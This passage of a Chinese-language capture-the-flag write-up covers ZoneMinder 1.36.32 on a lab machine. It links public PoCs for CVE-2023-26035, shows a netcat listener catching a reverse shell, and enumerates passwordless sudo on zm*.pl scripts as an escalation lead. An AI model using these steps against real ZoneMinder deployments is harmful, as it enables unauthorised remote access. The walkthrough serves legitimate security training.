 ```bash
```

发现版本 `1.36.32`。  
正好和上面[github的这个](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-222j-wh8m-xjrx)里说的版本一样。但是实际部署结构似乎又和文章里写的略有不同。如无法访问 `/zm/index.php` 确认ZoneMinder的版本。以及虽然没有 `web/ajax/events.php` 文件，不过有 `www/ajax/events.php`。应该对应一下实际文件夹结构就可以利用？但是看PoC代码发送的请求目标URL还是  `/zm/index.php`，没有这个文件的话估计无法利用……

接着github搜搜 `ZoneMinder exploit`，发现下面两个 `CVE-2023-26035` 的PoC，符合漏洞版本。看了下代码果然是利用CSRF那个值啊。

> 1. <https://github.com/rvizx/CVE-2023-26035/tree/main>
> 1. <https://github.com/m3m0o/zoneminder-snapshots-rce-poc/tree/main>

### PoC (CVE-2023-26035)

下载上面第一个PoC后运行，成功getshell：
```bash
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 48854
bash: cannot set terminal process group (1107): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ id
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

家目录里啥都没，不过发现无密码sudo：
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ cd /home     
cd /home
zoneminder@surveillance:/home$ ls
ls
matthew
zoneminder
zoneminder@surveillance:/home$ ls zoneminder
ls zoneminder
zoneminder@surveillance:/home$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *


zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl        /usr/bin/zmonvif-trigger.pl  /usr/bin/zmtrack.pl
/usr/bin/zmcamtool.pl      /usr/bin/zmpkg.pl            /usr/bin/zmtrigger.pl
/usr/bin/zmcontrol.pl      /usr/bin/zmrecover.pl        /usr/bin/zmupdate.pl
/usr/bin/zmdc.pl           /usr/bin/zmstats.pl          /usr/bin/zmvideo.pl
/usr/bin/zmfilter.pl       /usr/bin/zmsystemctl.pl      /usr/bin/zmwatch.pl
/usr/bin/zmonvif-probe.pl  /usr/bin/zmtelemetry.pl      /usr/bin/zmx10.pl
```
